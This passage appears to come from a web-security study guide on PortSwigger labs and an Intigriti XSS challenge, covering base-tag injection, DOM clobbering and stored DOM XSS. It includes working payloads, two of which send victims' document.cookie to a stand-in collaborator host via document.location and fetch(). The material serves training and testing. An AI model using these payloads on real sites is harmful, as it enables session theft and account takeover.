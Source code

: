 ```
https://challenge-1222.intigriti.io/blog/unique-guid-value-abc123?share=1
```  

>Deliver Exploit, by Sending url that reference the above blog entry to the victim will trigger XSS as them.  

[intigriti - Self-XSS upgrade - Solution to December 22 XSS Challenge](https://youtu.be/FowbZ8IlU7o)  

>Alternative exploit using HTML injection in the Edit Content blog entry page, ***identified*** using [XSS Resources CSP check](#xss-resources).  

```
<base href="https://Exploit.net">
```  

>Host JS file on Exploit server as `static/js/bootstrap.bundle.min.js`, with content:  

```
alert(document.getElementsByClassName("navbar-brand")[0].innerText)
```  

>The modified PortSwigger lab payload assign the `document.location` function to the variable `defaultAvatar` next time page is loaded, because site uses DOMPurify that allows the use of `cid:` protocol that do not URLencode double quotes.  

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=document.location=`https://OASTIFY.COM/?clobber=`+document.cookie//">
```  

[PortSwigger Lab: Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)  

### Stored DOM XSS  

>In the JavaScript `source code`, included script `resources/js/loadCommentsWithVulnerableEscapeHtml.js` we ***identify*** the `html.replace()` function inside the custom `loadComments` function. Testing payloads we see the function only replaces the first occurrence of `<>`.  

![stored dom-xss code replace](images/stored-dom-xss-code.png)  

```html
<><img src=1 onerror=javascript:fetch(`https://OASTIFY.COM?escape=`+document.cookie)>
```  

>Above payload is stored and any user visiting the comment blog will result in their session cookie being stolen and send to collaborator.  

![stored DOM-XSS json comments](images/stored-dom-xss-json-comments.png)  

>PortSwigger Lab payload: `<><img src=1 onerror=alert()>`.  

[PortSwigger Lab: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)  
  
-----
